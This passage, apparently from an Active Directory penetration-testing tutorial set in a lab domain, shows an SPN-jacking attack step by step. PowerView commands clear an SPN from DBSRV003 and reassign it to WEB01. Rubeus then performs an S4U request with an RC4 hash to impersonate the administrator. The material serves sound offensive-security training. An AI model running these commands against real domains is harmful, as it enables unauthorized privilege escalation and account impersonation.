As we can see in the above command output, `A constraint violation occurred`, meaning that the SPN is associated with another account. However, with the right permissions, we can navigate around this limitation. First, we need to remove the SPN we want to use from `DBSRV003`. This temporarily eliminates the association, making it possible to add the SPN to `WEB01`.

It's a good idea to get the list of SPNs before removing them:

```powershell
PS C:\Tools> Get-DomainComputer DBSRV003 -Properties 'serviceprincipalname' | Select-Object -ExcludeProperty serviceprincipalname

serviceprincipalname
--------------------
dmserver/DBSRV003.inlanefreight.local
dmserver/DBSRV003
WSMAN/DBSRV003
WSMAN/DBSRV003.inlanefreight.local
...SNIP...

```

To clear the SPNs we can also use PowerView with the command `Set-DomainObject` and the option `-Clear` specifying the attribute we want to clear:

```powershell
PS C:\Tools> Set-DomainObject -Identity DBSRV003 -Clear 'serviceprincipalname' -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=DBSRV003)(name=DBSRV003)(displayname=DBSRV003))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'DBSRV003$'

```

Now that the SPN is not being used, we can assign it to WEB01 and perform the attack:

```powershell
PS C:\Tools> Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=WEB01)(name=WEB01)(displayname=WEB01))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'dmserver/DBSRV003' for object 'WEB01$'

```

This manipulation effectively reroutes the authentication pathway, allowing for a successful `S4U` attack to obtain a service ticket for `WEB01`, impersonating a privileged user.

```powershell
PS C:\Tools> .\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dmserver/DBSRV003" /nowrap

  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: S4U

[*] Using rc4_hmac hash: ef3d150ee77eb9000001236c52bd2793
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\SRV01$'
[*] Using domain controller: 172.16.92.10:88
```

[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname